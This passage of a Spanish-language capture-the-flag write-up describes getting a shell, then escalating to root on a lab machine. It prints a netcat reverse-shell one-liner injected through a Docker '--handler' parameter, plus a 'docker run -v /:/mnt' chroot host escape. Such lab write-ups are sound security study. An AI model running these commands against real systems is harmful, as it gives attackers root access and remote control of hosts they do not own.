 Invoque la función, redirigí al usuario y gane una Shell en un contenedor.

![0](https://user-images.githubusercontent.com/69093629/162549540-b85922a2-7f19-4cba-a367-6308123a7dab.png)

### user.txt

Ya podía visualizar la *flag* del usuario.

![usetxt](https://user-images.githubusercontent.com/69093629/162549771-afb6a3bf-1c50-4db6-980a-78a9af2799aa.png)

### ESCALADA DE PRIVILEGIOS

Para la escalada de privilegios me transferí `pspy64` y vi las tareas que se ejecutaban a intervalos regulares de tiempo.

Vi que se ejecutaba Docker concatenando el parámetro `--handler` a la hora de crear la función lambda, por lo que si creaba mi función añadiendo `$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&1|nc 10.10.16.59 443 &gt;/tmp/f)` era muy probable que me ejecutara el comando y ganase acceso como `root` por `nc` en el contenedor.

![shellcomorootencontentedor](https://user-images.githubusercontent.com/69093629/162550680-a2f79325-d58c-4443-9d8f-0e2f3d6bfc86.png)

Ahora podia ejecutar el comando `docker` con sudo, me dirigí a `gtfobins`.

![Captura de pantalla 28](https://user-images.githubusercontent.com/69093629/162550803-31a19264-9028-4e15-9b6d-b353e12a5618.png)

Utilice el comando `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` para crear una montura raíz de la máquina en `/mnt`.

![0](https://user-images.githubusercontent.com/69093629/162550953-cb22a129-092a-440b-bad7-d9fcefaa12cb.png)

### root.txt

Me entable otro Shell inverso por netcat y me ejecute una bash al nuevo contenedor `docker` en ejecución, ya pude visualizar la *flag* de root.

![0](https://user-images.githubusercontent.com/69093629/162551321-5a1dd834-02ee-4f32-ae73-ab7d297ab8e8.png)
